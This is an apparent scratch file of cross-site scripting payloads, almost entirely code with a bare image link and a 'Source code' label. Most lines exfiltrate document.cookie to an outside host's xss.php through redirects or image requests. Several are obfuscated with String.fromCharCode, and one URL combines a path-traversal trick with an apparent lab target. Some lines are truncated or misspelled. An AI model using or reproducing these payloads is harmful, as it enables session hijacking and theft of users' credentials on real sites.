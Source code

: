 document.location="http://115.159.xx.xx/xss.php?cookie="+document.cookie new Image().src="http://115.159.xx.xx/xss.php?cookie="+document.cookie

document.location=String.fromCharCode(34,104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112,104,112,63,99,111,111,107,105,101,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101);

/jquery.min.js%2f..%2f..%2f../


window.location.href="http://115.159.xx.xx/xss.php?cookie="+document.cookie;

window.location.href=String.fromCharCode(104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112
http://39.107.33.96:20000/index.php/view/article/41479/jquery.min.js%2f..%2f..%2f../%22http://115.159.xx.xx/xss.php?cookie=%22+document.cookie;


34,104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112,104,112,63,99,111,111,107,105,101,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59

104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112,104,112,63,99,111,111,107,105,101,61

windows.lcoation.href=String.fromCharCode(104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112,104,112,63,99,111,111,107,105,101,61)+document.cookie;